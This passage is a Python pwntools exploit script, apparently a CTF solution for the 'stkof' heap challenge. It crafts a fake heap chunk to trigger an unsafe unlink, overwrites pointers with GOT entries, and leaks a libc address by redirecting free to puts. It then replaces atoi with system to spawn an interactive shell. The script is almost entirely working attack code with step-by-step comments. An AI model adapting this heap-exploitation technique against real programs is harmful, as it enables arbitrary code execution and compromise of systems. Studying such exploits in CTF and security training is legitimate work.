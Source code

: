 ```python
    p.send(content)
    p.recvuntil('OK\n')


def free(idx):
    p.sendline('3')
    p.sendline(str(idx))


def exp():
    # trigger to malloc buffer for io function
    alloc(0x100)  # idx 1
    # begin
    alloc(0x30)  # idx 2
    # small chunk size in order to trigger unlink
    alloc(0x80)  # idx 3
    # a fake chunk at global[2]=head+16 who's size is 0x20
    payload = p64(0)  #prev_size
    payload += p64(0x20)  #size
    payload += p64(head + 16 - 0x18)  #fd
    payload += p64(head + 16 - 0x10)  #bk
    payload += p64(0x20)  # next chunk's prev_size bypass the check
    payload = payload.ljust(0x30, 'a')
    # overwrite global[3]'s chunk's prev_size
    # make it believe that prev chunk is at global[2]
    payload += p64(0x30)
    # make it believe that prev chunk is free
    payload += p64(0x90)
    edit(2, len(payload), payload)
    # unlink fake chunk, so global[2] =&(global[2])-0x18=head-8
    free(3)
    p.recvuntil('OK\n')
    #gdb.attach(p)
    # overwrite global[0] = free@got, global[1]=puts@got, global[2]=atoi@got
    payload = 'a' * 8 + p64(stkof.got['free']) + p64(stkof.got['puts']) + p64(
        stkof.got['atoi'])
    edit(2, len(payload), payload)
    # edit free@got to puts@plt
    payload = p64(stkof.plt['puts'])
    edit(0, len(payload), payload)

    #free global[1] to leak puts addr
    free(1)
    puts_addr = p.recvuntil('\nOK\n', drop=True).ljust(8, '\x00')
    puts_addr = u64(puts_addr)
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))
    system_addr = libc_base + libc.symbols['system']
    log.success('libc base: ' + hex(libc_base))
    log.success('/bin/sh addr: ' + hex(binsh_addr))
    log.success('system addr: ' + hex(system_addr))
    # modify atoi@got to system addr
    payload = p64(system_addr)
    edit(2, len(payload), payload)
    p.send(p64(binsh_addr))
    p.interactive()


if __name__ == "__main__":
    exp()

```